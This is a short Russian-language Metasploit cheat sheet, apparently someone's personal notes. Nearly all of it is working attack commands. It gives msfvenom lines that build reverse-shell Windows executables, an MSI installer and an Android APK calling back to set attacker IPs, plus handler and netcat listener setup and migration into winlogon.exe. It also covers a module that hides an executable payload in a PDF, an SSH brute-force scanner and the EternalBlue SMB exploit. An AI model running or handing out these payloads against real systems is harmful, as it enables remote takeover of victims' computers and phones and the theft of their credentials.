 # MetaSploit

Создаем реверс шелл для виндовс
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe


проверено для netcat и для метасплойт

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер
rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

migrate -N winlogon.exe

run


use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
set PAYLOAD windows/x64/shell_reverse_tcp

set lhost 192.168.0.9

set lport 4444

exploit


Для АНДРОИД
msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу

Код:

exploit


Для брута use auxiliary/scanner/ssh/ssh_login



eternalblue

use exploit/windows/smb/ms17_010_eternalblue
   show payloads
